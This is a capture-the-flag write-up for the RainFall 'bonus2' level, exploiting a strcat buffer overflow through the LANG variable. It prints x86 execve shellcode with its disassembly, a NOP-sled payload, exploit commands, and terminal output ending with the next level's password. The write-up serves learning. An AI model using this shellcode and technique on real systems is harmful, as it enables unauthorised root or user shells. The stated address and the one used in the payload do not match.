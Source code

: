 # Preparations

Entering bonus2 home directory we see a bonus2 binary with sticky bit in access rights.
By objdumping the binary we see a main and a greetuser function:

	bonus2@RainFall:~$ objdump -D -M intel-mnemonic bonus2 > /tmp/dump_bon2

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Exploitation

We have `strcat` that is unsecure in `greetuser` function. We can use buffer overflow and an environmental variable `LANG` that is used in binary. In a variable there should be a shellcode. We will use the one that was already used - shellcode for linux x86:

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

What does it mean:

	Disassembly of section .text:

	08048060 <_start>:
	 8048060: 31 c0                 xor    %eax,%eax
	 8048062: 50                    push   %eax
	 8048063: 68 2f 2f 73 68        push   $0x68732f2f	;'//sh'
	 8048068: 68 2f 62 69 6e        push   $0x6e69622f	;'/bin'
	 804806d: 89 e3                 mov    %esp,%ebx	;copy string (command) address
	 804806f: 89 c1                 mov    %eax,%ecx
	 8048071: 89 c2                 mov    %eax,%edx
	 8048073: b0 0b                 mov    $0xb,%al		;11
	 8048075: cd 80                 int    $0x80		;execve()
	 8048077: 31 c0                 xor    %eax,%eax
	 8048079: 40                    inc    %eax
	 804807a: cd 80                 int    $0x80		;restart_syscall()

Shellcode length is 28 bytes that is very important because we need to count where to put it so that it is executed and does not break the programm.\
We need to use `LANG` environment variable two times to exploit the binary but its address is not changed so it will be found by the helping programm:

    #include <stdio.h>
	#include <stdlib.h>

	int main(int argc, char **argv)
	{
		printf("%s is at %p\n", argv[1], getenv(argv[1]));
	}

And create the variable with shellcode:

	bonus2@RainFall:~$ ls /tmp
	bonus2@RainFall:~$ vi /tmp/find_env.c
	bonus2@RainFall:~$ gcc -o /tmp/find_env /tmp/find_env.c
	bonus2@RainFall:~$ export LANG=$(python -c 'print "fi" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	bonus2@RainFall:~$ /tmp/find_env LANG
	LANG is at 0xbffffe85 # \x89\xfe\xff\xbf in little-endian

What is `"\x90" * 100` here? That is a `NOP`path: 

> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is a machine language instruction and its assembly language mnemonic, programming language statement, or computer protocol command that does nothing. `NOP` can be useful to "yield" during a critical section, i.e. allow other interrupts to occur so as to reduce interrupt latency caused by the critical section. It is processed by the CPU like any other instruction. So this means that it will be readed from memory, will increment the instruction pointer, but in the execute phase after the instruction decode nothing else will be done.

That means that CPU will do nothing but just increment the instruction pointer and finally we will come to out shellcode. Why 100? Because we make it quite big so that nothing interrupts CPU on the way to shellcode.\
According to https://wiremask.eu/tools/buffer-overflow-pattern-generator/ we also get offsets for fi and nl: fi is 18, nl is 23.\
So let's try the exploitation, we need to do it one after another and because of static memory we will get shell with shellcode:

    bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a" * 23 + "\xe0\xfe\xff\xbf"')

Offset is 23 so "a" * 23.\
First "a" * 40 is needed for alignment.

# Result

	bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a" * 23 + "\xe0\xfe\xff\xbf"')
	Goedemiddag! aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
	$ whoami
	bonus3
	$ cat /home/user/bonus3/.pass
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
